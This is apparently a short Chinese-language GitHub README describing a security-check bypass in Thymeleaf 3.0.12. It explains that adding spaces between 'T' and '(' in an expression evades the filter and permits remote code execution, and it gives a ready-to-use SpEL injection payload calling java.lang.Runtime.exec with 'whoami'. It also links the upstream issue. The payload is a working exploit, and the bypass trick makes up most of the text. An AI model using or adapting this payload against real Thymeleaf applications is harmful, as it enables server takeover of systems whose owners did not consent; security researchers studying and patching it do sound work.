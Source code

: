 # Thymeleaf 3.0.12 RCE Bypass

问题详情可以见：https://github.com/thymeleaf/thymeleaf/issues/828

通过更改表达式可以进行绕过安全检查，在T和(之间添加若干个空格字符即可绕过检查进行RCE。

Payload：

```
${T (java.lang.Runtime).getRuntime().exec("whoami")}

```

官方issue:https://github.com/thymeleaf/thymeleaf/issues/828